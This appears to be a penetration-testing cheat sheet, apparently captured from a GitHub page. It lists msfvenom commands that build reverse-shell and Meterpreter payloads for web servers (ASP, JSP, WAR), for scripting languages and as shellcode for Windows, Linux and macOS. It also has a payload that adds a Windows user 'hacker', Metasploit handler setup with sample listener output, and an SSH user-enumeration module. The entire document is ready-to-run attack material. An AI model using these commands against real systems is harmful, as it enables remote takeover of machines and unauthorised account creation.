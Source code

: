 ASP Meterpreter Reverse TCP
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

JSP Java Meterpreter Reverse TCP
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

Scripting Payloads

Python Reverse Shell
	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell
	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell
	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

Shellcode

Windows Meterpreter Reverse TCP Shellcode
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Linux Meterpreter Reverse TCP Shellcode
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Mac Reverse TCP Shellcode
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Create User
	msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

Metasploit Handler:

	use exploit/multi/handler
	set PAYLOAD <Payload name>
	Set RHOST <Remote IP>
	set LHOST <Local IP>
	set LPORT <Local Port>
	Run
	
msf> use multi/handler
msf exploit(handler) > set RHOST <remote IP>
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST <Listening_IP>
msf exploit(handler) > set LPORT <Listening_Port>
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.75.35:4444
[*] Starting the payload handler…

SSH User Enumeration in Metasploit:
AUXILIARY/SCANNER/SSH/SSH_ENUMUSERS
	>set RHOSTS <target>
	>set USERNAME admin
	>run
	